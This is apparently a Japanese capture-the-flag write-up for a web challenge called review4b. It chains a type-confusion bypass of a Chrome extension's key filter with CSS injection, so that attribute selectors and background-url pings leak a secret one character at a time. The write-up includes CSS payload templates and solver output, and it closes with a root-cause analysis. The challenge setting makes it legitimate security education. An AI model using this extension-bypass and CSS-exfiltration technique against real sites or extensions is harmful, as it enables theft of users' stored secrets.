



## 問題

```
レビューは大変なので、拡張機能を作りました！ [URL]
```

「レビューは大変なので拡張機能を作った」とのこと．サイトを開くとレビュー用のノート投稿サービスで，書いたノートをadminにreportできる．client-side問っぽい．
 

## 調査

とりあえずディレクトリを見る．

```
> tree

.
├── app
│   ├── package-lock.json
│   ├── package.json
│   └── src
│       ├── bot.js
│       └── server.js
├── compose.yml
├── docker-entrypoint.sh
├── Dockerfile
├── extension
│   ├── background.js
│   ├── content.js
│   ├── manifest.json
│   └── secret.js
├── public
│   ├── index.html
│   ├── note.html
│   └── report.html
└── README.md
```

配布の`README.md`も読む．

```
# review4b

レビュー用の小さなノート投稿サービスです。ノートページでは厳しいCSPにより外部送信が制限されています。

admin botはレビュー補助用のChrome拡張機能 `review4b` を入れたブラウザでノートを確認します。
```

ノートページはCSPで外部送信が絞られていて，admin botはreview4b拡張入りブラウザでノートを見る，とある．これが前提になりそう．

わかること:
- `app/src/server.js` -> Expressサーバー本体っぽい．ノートの保存とreport受付．
- `app/src/bot.js` -> READMEにあるadmin botの実体っぽい．
- `extension/` -> botのブラウザに入るChrome拡張．`secret.js`は名前からしてflagが入ってそう．
- `public/note.html` -> 投稿したノートが描画されるページ．READMEの「厳しいCSP」が効くのはここっぽい．

READMEと構成から，「拡張が持ってる何か（flag）を，CSPのきついノートページ経由で抜く」ゲームっぽい．怪しい順に見ていく．
1. `extension/secret.js`/`background.js`/`content.js`（flagがどこにあって，どう取り出せるか）
2. `app/src/server.js`（ノート保存・CSP・leakの口）
3. `public/note.html`（投稿が描画される場所）
4. `app/src/bot.js`（botの動き）

## extension

`extension/secret.js`（全1行）はそのままflag．

```js
// extension/secret.js : 1行目
self.FLAG = "ctf4b{**REDACTED**}";
```

`extension/background.js`の`initializeStorage`（6〜18行目）がこれを拡張ストレージに入れている．

```js
// extension/background.js : initializeStorage (6〜18行目)
async function initializeStorage() {
  const current = await chrome.storage.local.get("helperVersion");
  if (current.helperVersion) {
    return;
  }

  await chrome.storage.local.set({
    theme: "light",
    helperVersion: "1.0.0",
    lastUpdated: "2026-06-01",
    flag: self.FLAG
  });
}
```

flagは拡張の`chrome.storage.local`にkey `flag`で入る．これを取り出す口が同じ`extension/background.js`のメッセージハンドラ`chrome.runtime.onMessage.addListener`（35〜69行目）．`settings.get`を処理する．

```js
// extension/background.js : onMessage ハンドラ (43〜60行目)
    if (!msg || msg.cmd !== "settings.get") {
      throw new Error("unknown command");
    }

    const keys = Object.prototype.hasOwnProperty.call(msg, "keys")
      ? msg.keys
      : DEFAULT_PUBLIC_KEYS;

    if (String(keys).includes("flag") || String(keys).includes("secret")) {
      throw new Error("blocked key");
    }

    const result = await chrome.storage.local.get(keys);

    sendResponse({
      ok: true,
      result
    });
```

51行目で`String(keys).includes("flag")`によりflagを弾いている．が，判定しているのは`keys`そのものではなく`String(keys)`（文字列化した結果）の方．「ブロック判定に使う文字列」と「実際に取得に使うキー」がズレている．
- `keys`が文字列や配列ならズレない（`String("flag")`も`String(["flag"])`も`"flag"`という文字列を含む）のでブロックされる．
- だがJSのオブジェクトを`String()`すると，中身のキー名に関係なく必ず`"[object Object]"`になる．つまり`String({flag: ""})`は`"flag"`を含まず，51行目のブロックを通過してしまう．
- 一方55行目の`chrome.storage.local.get(keys)`はオブジェクトを「キーとデフォルト値の辞書」として解釈するので，`{flag: ""}`を渡すとキー`flag`の保存値（＝flag本体）がそのまま返る．
- まとめると「ブロックは文字列表現だけを見て，取得は実際のキーを見る」という非対称を突き，`keys={flag:""}`でフィルタを回避しつつflagを読める．

つまりメッセージを`{"cmd":"settings.get","keys":{"flag":""}}`にすればflagを読める．ただこれを呼ぶのは拡張で，こちらから直接は叩けない．呼び口を探すと`extension/content.js`（22〜53行目の即時関数）にあった．ノートページ上で動くcontent scriptで，拡張とDOMをつないでいる．

```js
// extension/content.js : 即時関数 (29〜52行目)
  const elements = document.querySelectorAll("[data-review4b]");

  for (const el of elements) {
    const encoded = el.getAttribute("data-review4b");

    let msg;

    try {
      msg = JSON.parse(atob(encoded));
    } catch {
      ...
      continue;
    }

    const response = await chrome.runtime.sendMessage(msg);

    el.setAttribute(
      "data-review4b-result",
      JSON.stringify(response)
    );
  }
```

ページ内に`data-review4b="..."`を仕込むと，content.js（29行目）がそれをメッセージにして拡張に送り（46行目），応答を`data-review4b-result`属性に書き戻す（48〜51行目）．さっきのバイパスと合わせて`data-review4b="base64({cmd:settings.get,keys:{flag:''}})"`を置けば，botのページDOMに`data-review4b-result='{"ok":true,"result":{"flag":"ctf4b{...}"}}'`が生える．

flagがページのDOM属性に乗った．あとはこれをページの外（自分）に持ち出せればいい．

## src/server.js

持ち出しを阻むのがそのCSP．`app/src/server.js`の`noteCsp`（29〜41行目）で定義され，`GET /notes/:id`（166〜185行目）の175行目で付く．

```js
// app/src/server.js : noteCsp (29〜41行目)
function noteCsp() {
  return [
    "default-src 'self'",
    "script-src 'none'",
    "style-src 'self' 'unsafe-inline'",
    "img-src 'self'",
    "connect-src 'none'",
    "font-src 'none'",
    "object-src 'none'",
    "base-uri 'none'",
    "frame-ancestors 'none'"
  ].join("; ");
}
```

`script-src 'none'`でJSは撃てないし，`connect-src 'none'`でfetchも無理．でも`style-src ... 'unsafe-inline'`でinline CSSが通って，`img-src 'self'`で同一オリジンの画像読み込みが通る．JSが使えないので，CSSの`background: url(...)`で同一オリジンにpingを飛ばす方向を考える．


`GET /notes/{id}`のレスポンス．CSPは`script-src 'none'`/`connect-src 'none'`で塞ぎつつ`style-src 'unsafe-inline'`+`img-src 'self'`が空いている．（ボディの`<style>`に自分のCSSが入っているのも見えるが，使い方は後述）

そのpingの受け口が`app/src/server.js`の`GET /leak/:id`（218〜242行目）．

```js
// app/src/server.js : GET /leak/:id (218〜242行目)
app.get("/leak/:id", (req, res, next) => {
  try {
    const { id } = req.params;
    assertValidId(id);
    if (!notes.has(id)) {
      return res.status(404).send("見つかりません");
    }

    const entries = leaks.get(id) || [];
    entries.push({
      at: new Date(),
      query: req.url.includes("?") ? req.url.slice(req.url.indexOf("?") + 1) : "",
      ip: req.ip
    });
    ...
    res.status(204).end();
  } catch (err) {
    next(err);
  }
});
```

回収は`GET /leaks/:id`（244〜260行目）．`?json=1`でJSONでくれる（250〜251行目）．

```js
// app/src/server.js : GET /leaks/:id (244〜260行目)
    if (req.query.json === "1") {
      return res.json({ ok: true, id, leaks: entries });
    }
```

`/leak/:id?c=...`を叩くとクエリが`leaks`に記録され（229行目），`/leaks/:id?json=1`で後から「どの`c=...`が叩かれたか」を回収できる．

## public/note.html

投稿したCSS/HTMLがどう描画されるか．`public/note.html`（7〜13行目）を見ると，CSSは`<style>`に，HTMLは`<body>`にそのまま展開される．

```html
<!-- public/note.html : 7〜13行目 -->
  <style>
{{NOTE_CSS}}
  </style>
</head>
<body>
{{NOTE_HTML}}
</body>
```

エスケープなしなのでCSSインジェクションができる．これで「inline CSSで`background:url(/leak)`を撃つ」が成立する．

## CSSの属性セレクタで1文字ずつ抜く

ここまでで揃ったもの:
- flagは`data-review4b-result`属性に文字列で入っている（CSSから「部分一致するか？」は聞ける）．
- `background: url(/leak/ID?c=i)`で同一オリジンにpingを送れる．
- `/leaks/ID?json=1`で結果を回収できる．

CSSの属性部分一致セレクタ`[attr*='...']`で「flagがprefix+候補文字で始まるか？」を1文字ずつ問う．

```css
/* 既知の prefix が "ctf4b{" のとき，次の1文字を総当たり */
div[data-review4b-result*='ctf4b{a']{ background:url(/leak/ID?c=0) }
div[data-review4b-result*='ctf4b{b']{ background:url(/leak/ID?c=1) }
...
```

botが開くとcontent.jsが`data-review4b-result`にflagを書き込み，本物の次文字に一致したセレクタだけが発火し，その`background`が`/leak/ID?c=i`を読む．`/leaks/ID?json=1`を見て発火した`c=i`から次の1文字を確定する．prefixを伸ばしてreport->leak回収，を`}`まで繰り返す（CSSはprefixごとに作り直すので1文字=1ノート/1report）．


report後の`/leaks/{id}?json=1`．`query:"c=4"`が1件だけ記録されている＝本物の次文字に一致したCSSセレクタが発火し，bot（`ip:127.0.0.1`）が`/leak?c=4`を読んだ．1文字漏れた証拠ですね．

制約も`app/src/server.js`から読める:
- 12行目`MAX_CSS_BYTES`は8KB．候補文字×ルールでも数KBで収まる（solveでも8192バイト超を弾く）．
- reportはtoken bucketのレート制限（`checkReportRateLimit` 67〜86行目，burst10/2秒で回復）．429が返ったら少し待ってリトライ．

## botの動き（app/src/bot.js）

`app/src/bot.js`の`visitNote`（47〜85行目）．

```js
// app/src/bot.js : visitNote (51〜72行目)
  const browser = await puppeteer.launch({
    executablePath: chromeExecutablePath(),
    headless: botHeadlessMode(),
    pipe: true,
    enableExtensions: [EXTENSION_DIR],
    userDataDir,
    args: [
      ...
    ]
  });

  const page = await browser.newPage();
  await page.goto(url, {
    waitUntil: "networkidle0",
    timeout: Number(process.env.BOT_TIMEOUT_MS || 10000)
  });
  await new Promise((resolve) => setTimeout(resolve, Number(process.env.BOT_STAY_MS || 1000)));
```

botは拡張入りChrome（55行目`enableExtensions`）で`/notes/ID`を開き（68行目），`networkidle0`まで待って既定1秒滞在（72行目）．この滞在中にcontent.jsが属性を埋め，CSSセレクタが一致して`/leak`が飛ぶので間に合う．

## 分かったこと

- flagは拡張ストレージにあり，`settings.get`の`keys:{flag:""}`（オブジェクト化）でフィルタを回避して読める（`extension/background.js` 51・55行目）．
- `extension/content.js`（48〜51行目）が応答を`data-review4b-result`属性に書くのでflagがDOMに乗る．
- ノートページは`script-src 'none'`だが`style 'unsafe-inline'`+`img-src 'self'`なので（`noteCsp` 29〜41行目），`public/note.html`（8・12行目）のCSSインジェクションから`background:url(/leak)`で同一オリジン送信ができる．
- CSS属性部分一致セレクタ`[data-review4b-result*='prefix+c']`でflagを1文字ずつオラクル抽出し，`/leaks`（244〜260行目）で回収．
- -> 「flagを読ませるdata-review4bを仕込み，prefixごとにleak用CSSを作ってreport->/leaksで次文字確定」を繰り返せばflagが抜ける．自動化すればよさそう．

## 実行

上記を踏まえてスクリプトを書きました．
[solve_web.py](./solve_web.py)

```
> python3 solve_web.py http://review4b.beginners.seccon.games:3000
leaked: ctf4b{e
leaked: ctf4b{ex
leaked: ctf4b{ex7
leaked: ctf4b{ex7e
leaked: ctf4b{ex7en
leaked: ctf4b{ex7ent
leaked: ctf4b{ex7enti
leaked: ctf4b{ex7enti0
leaked: ctf4b{ex7enti0n
leaked: ctf4b{ex7enti0n_
leaked: ctf4b{ex7enti0n_c
leaked: ctf4b{ex7enti0n_c4
leaked: ctf4b{ex7enti0n_c4n
leaked: ctf4b{ex7enti0n_c4nt
leaked: ctf4b{ex7enti0n_c4nt_
leaked: ctf4b{ex7enti0n_c4nt_c
leaked: ctf4b{ex7enti0n_c4nt_ch
leaked: ctf4b{ex7enti0n_c4nt_che
leaked: ctf4b{ex7enti0n_c4nt_chec
leaked: ctf4b{ex7enti0n_c4nt_check
leaked: ctf4b{ex7enti0n_c4nt_check_
leaked: ctf4b{ex7enti0n_c4nt_check_n
leaked: ctf4b{ex7enti0n_c4nt_check_nu
leaked: ctf4b{ex7enti0n_c4nt_check_nu1
leaked: ctf4b{ex7enti0n_c4nt_check_nu11
leaked: ctf4b{ex7enti0n_c4nt_check_nu11}

FLAG: ctf4b{ex7enti0n_c4nt_check_nu11}
```

## 原因とか

- キーフィルタが型に無防備．`extension/background.js` 51行目`String(keys).includes("flag")`は文字列/配列なら効くが，`keys={flag:""}`のオブジェクトだと`"[object Object]"`になって素通り．55行目`chrome.storage.local.get({flag:""})`がそのままflagを返す．許可キーのallowlistで判定すべきだった．
- 特権の応答をDOM属性に書き戻している．`extension/content.js` 48〜51行目が拡張の応答（flag入り）を`data-review4b-result`に載せることで，本来CSSから触れない秘密がページDOMの観測対象になってしまう．
- CSPの穴．`noteCsp`（29〜41行目）は`script-src 'none'`でも`style 'unsafe-inline'`+`img-src 'self'`が空いていて，CSS属性セレクタ＋`background:url()`で同一オリジンへ1bitずつ漏らせる（CSS exfiltration）．`connect-src 'none'`だけでは防げない．
- これらが重なって，JSを一切使わずにflagを1文字ずつ抜けてしまった．

## 参照
- [MDN — 属性セレクター](https://developer.mozilla.org/ja/docs/Web/CSS/Attribute_selectors) — `[attr*='value']`の部分一致．今回のオラクルの土台．
- [MDN — Content-Security-Policy](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Content-Security-Policy) — `script-src`/`style-src`/`img-src`/`connect-src`の意味と，CSS/画像が空く危険．
- [Chrome — chrome.storage API](https://developer.chrome.com/docs/extensions/reference/api/storage) — `storage.local.get`にオブジェクトを渡すとデフォルト値付き取得になる挙動．
- [HackTricks — CSS Injection](https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection) — 属性セレクタ＋背景画像で文字を盗むCSS exfiltrationの定番手法．
